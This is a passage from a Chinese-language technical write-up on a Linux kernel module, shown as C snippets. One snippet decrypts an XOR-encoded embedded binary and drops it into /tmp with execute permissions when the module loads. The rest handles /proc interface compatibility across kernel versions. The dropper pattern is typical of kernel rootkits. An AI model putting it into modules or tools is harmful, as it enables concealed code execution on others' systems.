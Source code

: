 #### 3.6.2 动态文件生成
```c
int wr_blk(void)
{
    // 生成临时文件路径和名称
    sprintf(_kpath, "/tmp/%x", FILE_XOR_KEY);
    sprintf(_kname, "%x", FILE_XOR_KEY);
    
    // 解密二进制数据块
    blk_enc(b_block, sizeof(b_block), FILE_XOR_KEY, sizeof(unsigned int));
    
    // 创建临时文件并写入解密后的数据
    struct file *file = filp_open(_kpath, O_CREAT|O_RDWR|O_LARGEFILE, 0700);
    ssize_t cnt = _kwrite_file(file, b_block, sizeof(b_block), &offset);
    
    return 0;
}
```

**实现原理**: 在模块加载时，将解密后的二进制文件写入`/tmp`目录，并设置执行权限，实现用户空间程序的动态加载。

## 4. 内核版本兼容性处理

### 4.1 版本检测机制
```c
#include <linux/version.h>

// 添加内核版本兼容性定义
#ifndef LINUX_VERSION_CODE
#include <linux/version.h>
#endif

// 条件编译处理不同内核版本
#if LINUX_VERSION_CODE >= KERNEL_VERSION(5,6,0)
// 新内核实现
#elif LINUX_VERSION_CODE >= KERNEL_VERSION(3,9,0)
// 中等版本内核实现
#else
// 老版本内核实现
#endif
```

### 4.2 API兼容性适配

#### 4.2.1 proc_create函数兼容性
```c
#if LINUX_VERSION_CODE >= KERNEL_VERSION(5,6,0)
// 新内核使用proc_ops结构
static const struct proc_ops proc_path_proc_ops = {
    .proc_write = proc_path_write,
    .proc_read = proc_path_read,
    .proc_open = proc_path_open,
    .proc_release = proc_path_release,
};
#else
// 老内核使用file_operations结构
static const struct file_operations proc_path_fops = {
    .write = proc_path_write,
    .read = proc_path_read,
    .open = proc_path_open,
    .release = proc_path_release,
};
#endif
```
